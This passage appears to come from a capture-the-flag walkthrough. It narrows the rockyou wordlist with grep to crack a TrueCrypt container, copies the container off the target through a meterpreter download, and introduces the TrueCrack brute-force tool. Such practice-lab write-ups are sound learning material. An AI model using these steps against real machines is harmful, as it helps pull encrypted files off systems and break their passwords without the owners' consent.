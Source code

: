 Here it is, another reference to the rockyou list! I've looked around and found the mentioned encrypted file at <code>/root/dave.tc</code>. The *tc* extension is for a Truecrypt virtual encrypted disk. So now we know what to crack, and roughly how to do it.

The rockyou.txt file has over 14 million entries, so we're gonna need to make good use of the hints:

``` 
wc -l /usr/share/wordlists/rockyou.txt 
14344392 /usr/share/wordlists/rockyou.txt
``` 

I made a new file with only the entries that were 11 characters long:

``` 
grep -E '^.{11}$' /usr/share/wordlists/rockyou.txt > /root/rocked.txt
wc -l rocked.txt 
865891 rocked.txt
```

And then I created a final file with only the entries that had "academy" in them:

``` 
grep academy rocked.txt > rockademy.txt
wc -l rockademy.txt 
16 rockademy.txt
```

From over 14 million to 16 entries?! Sounds too good to be true! Let's put it to the test. First, I had to transfer the encrypted file to my machine. I copied *dave.tc* to /tmp and then downloaded it from there with meterpreter:

``` 
meterpreter > download /tmp/dave.tc
[*] Downloading: /tmp/dave.tc -> dave.tc
[*] Downloaded 1.00 MiB of 5.00 MiB (20.0%): /tmp/dave.tc -> dave.tc
[*] Downloaded 2.00 MiB of 5.00 MiB (40.0%): /tmp/dave.tc -> dave.tc
[*] Downloaded 3.00 MiB of 5.00 MiB (60.0%): /tmp/dave.tc -> dave.tc
[*] Downloaded 4.00 MiB of 5.00 MiB (80.0%): /tmp/dave.tc -> dave.tc
[*] Downloaded 5.00 MiB of 5.00 MiB (100.0%): /tmp/dave.tc -> dave.tc
[*] download   : /tmp/dave.tc -> dave.tc
```

For cracking the file, Kali already comes with TrueCrack preinstalled:

> TrueCrack is a brute-force password cracker for TrueCrypt volumes. It works on Linux 
> and it is optimized for Nvidia Cuda technology. It supports:

>    PBKDF2 (defined in PKCS5 v2.0) based on key derivation functions: Ripemd160, Sha512
> and Whirlpool.
>    XTS block cipher mode for hard disk encryption based on encryption algorithms: AES,
> SERPENT, TWOFISH.
>    File-hosted (container) and Partition/device-hosted.
>    Hidden volumes and Backup headers.

> TrueCrack is able to perform a brute-force attack based on:

>    Dictionary: read the passwords from a file of words.
>    Alphabet: generate all passwords of given length from given alphabet.
